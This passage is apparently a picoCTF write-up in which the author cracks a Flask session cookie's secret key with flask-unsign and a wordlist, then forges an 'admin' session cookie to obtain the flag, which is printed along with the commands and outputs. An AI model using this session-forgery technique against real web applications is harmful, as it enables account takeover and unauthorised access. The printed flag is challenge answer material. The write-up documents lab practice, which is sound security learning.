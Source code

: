 Then I copied the current cookie session value and used `flask-unsign` to brute force

<img width="1914" height="864" alt="image" src="https://github.com/user-attachments/assets/4025b356-cc19-48b5-8ed0-6dd997329cd5" />

```bash
# flask-unsign --unsign --cookie 'eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.aPQyng.smEuf6Wzpse-A09UeBC8IK8qKxI' --wordlist cookies.txt
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'fortune'
```
Now that we have the secret key, let's create a forged session

```bash
# flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'fortune'
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aPQ0OQ.fVCqkV1KVUaqRI2osY_j9JS7r9k
```

I updated the cookie value and got the flag

<img width="1919" height="853" alt="image" src="https://github.com/user-attachments/assets/fe5b55af-d2d7-4cc3-8ca5-47c864dc7753" />

Thus the flag for this challenge is `picoCTF{pwn_4ll_th3_cook1E5_743c20eb}`

